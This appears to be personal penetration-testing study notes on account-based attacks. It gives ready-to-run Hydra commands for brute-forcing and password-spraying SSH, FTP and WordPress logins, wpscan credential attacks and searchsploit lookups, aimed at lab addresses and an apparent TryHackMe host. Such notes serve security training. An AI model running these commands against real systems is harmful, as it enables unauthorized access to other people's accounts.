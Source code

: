 ## Vulnerability Exploitation

- exploitation code + payload that I want(Shell, extract info, execution)
    - PoC : proof not attack , just minimum one


### account based
- Brute force or dictionary attack 
- password spraying - [many users:one] 
- default creds



#### Hydra
```
SSH
hydra -L USERFILE -P PASSLIST ssh://172.31.181.133 -V -s 22 : verbose

FTP
hydra -L userfile -P password ftp://IP -V -s 21 : anonymous check

http(default)
hydra -L foundusers.txt -p password 172.31.176.64 -s 8081 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid" -V: username > passwd can , if it shows, fails, let it go

    -> validusers 
hydra -L validusers.txt -P pass.txt 172.31.176.64 -s 8081 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect" -V
    - `S=` : success

hydra -l admin -P words.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect" -s 80 -V -f
  - -f exit when pair is found 
```

- if wordpress, automatically find username fast

```
wpscan --url http://172.31.176.64 --passwords pass.txt

wpscan --url http://blogger.thm/assets/fonts/blog/ -e ap --plugins-detection aggressive
    not default scan, from passive method to aggressive detection without password
    -e ap, at : this is default mode. no need

    `searchsploit wordpress PLUGIN_NAME PLUGIN_VERSION`

```

- password spraying 
```
hydra -L commonusername.txt -p 'pas@' ssh://~
```

- credential stuffing
    - pastebin : exposed in darkweb before, username, pwd 
